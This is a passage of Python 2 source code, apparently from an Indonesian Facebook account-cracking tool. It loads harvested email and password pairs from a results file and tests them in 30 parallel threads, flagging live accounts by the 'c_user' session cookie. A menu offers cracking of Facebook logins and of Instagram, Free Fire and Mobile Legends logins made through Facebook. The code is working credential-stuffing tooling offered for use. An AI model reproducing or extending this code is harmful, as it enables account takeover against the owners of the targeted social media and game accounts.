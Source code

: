 				_iqbal_dev_pw_new_(pw_new_, data, eml_dev, ses_dev, respon_2, san_dev)
			elif "c_user" in respon.cookies:
				print h+"\r Akun Live...\n"+a+data+"\n"+batas
			elif "Anda menggunakan kata sandi lama." in respon.text:
				print m+"\r Menggunakan Sandi Lama.....\n"+data+"\n"+batas
			else:
				if ">>>" in iqbal:
					print data+"\n"+batas
				else:
					pass
	except:
		if ">>>" in iqbal: 
			print data+"\n"+batas
		else:
			pass

hasil_cekpoint = []
def auto_dev():
	try:
		print a+"\n >>>"+p+" Tekan"+h+" CTRL+Z"+p+" Untuk hentikan Proses\n"
		hasil_cek = open("hasil_cp.txt", "r").readlines()
		for dev in hasil_cek:
			hasil_cekpoint.append(dev.replace("\n", ""))
		with ThreadPoolExecutor(max_workers=30) as dev:
			for data in hasil_cekpoint:
				try:
					if "==>" in data:
						email = data.split("==>")[1]
						pw = data.split("==>")[3]
						dat = data.replace("==>", " ")
						dev.submit(cek_dev, email, pw, dat)
					else:
						email = data.split()[1]
						pw = data.split()[3]
						dev.submit(cek_dev, email, pw, data)
				except:
					pass

	except IOError:
		print k+"\n Belum Ada Hasil Checkpoint..\n"
		exit()

def __pilih_crack__():
	try:
		print garis
		print h+" ["+k+"1"+h+"]"+p+" Crack"+a+" Login Instagram Lewat Facebook"
		print h+" ["+k+"2"+h+"]"+p+" Crack"+a+" Login Free Fire"+p+"("+k+"FF"+p+")"+a+" Lewat FB"
		print h+" ["+k+"3"+h+"]"+p+" Crack"+a+" Login Mobile Legend"+p+"("+k+"MLBB"+p+")"+a+" Lewat FB"
		print h+" ["+p+"4"+h+"]"+k+" Crack API facebook"+a+"("+p+"fast Cracking"+a+")"+h+">> Super Pro"
		print h+" ["+k+"5"+h+"]"+p+" Crack"+h+" Login Lewat facebook Mobile"
		print h+" ["+k+"6"+h+"]"+p+" Crack"+p+" Login Lewat facebook"+k+" Mbasic"+a+" Pro.."
		print h+" ["+k+"7"+h+"]"+p+" Crack"+h+" Login Lewat facebook Free"
		print garis
		pilih = raw_input(p+" +>>>"+h+" ")
